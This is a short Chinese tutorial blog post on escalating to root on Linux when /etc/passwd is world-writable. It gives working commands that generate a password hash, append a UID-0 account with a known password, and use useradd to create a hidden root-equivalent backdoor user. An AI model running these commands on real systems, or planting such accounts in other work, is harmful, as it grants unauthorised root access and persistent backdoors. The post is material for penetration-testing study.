 当我们获得了某个Linux服务器的低权限之后，我们想要对该低权限账号进行[提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020)，以执行更多的操作。

接下来我们的提权是利用 /etc/passwd 文件的可写入权限，导致我们写入一个其他用户进去。

首先，查看 /etc/passwd 的权限，发现任何用户都可以读写。

![](https://img-blog.csdnimg.cn/20190820184956435.png)

有关于 /etc/passwd 文件里面数据的每个属性，传送门——> [Linux下的用户和组](https://blog.csdn.net/qq_36119192/article/details/82228791#%E6%9F%A5%E7%9C%8B%E7%94%A8%E6%88%B7%E4%BF%A1%E6%81%AF)

我们现在要做的就是自己构造一个用户，在密码占位符处指定密码，并且UID设置为0，将其添加到 /etc/passwd 文件中。

首先，使用perl语言生成带有盐值的密码：

```
perl -le 'print crypt("password@123","addedsalt")'
```


![](https://img-blog.csdnimg.cn/20190820185556404.png)

然后执行下面这条命令，成功将test用户的信息加入 /etc/passwd 文件

```
echo "test:advwtv/9yU5yQ:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
```


![](https://img-blog.csdnimg.cn/20190820185802461.png)

以用户名：test  密码： password@123 登录主机，登录成功后，是 root 权限。

![](https://img-blog.csdnimg.cn/20190820205147934.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

以下这条命令直接生成一个具有root权限的用户：venus，密码为：123qwe 。前提是这条命令的执行需要root权限。

```
useradd -p `openssl passwd -1 -salt 'user' 123qwe` -u 0 -o -g root  -G root -s /bin/bash -d /home/user venus
```


文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10973 人正在系统学习中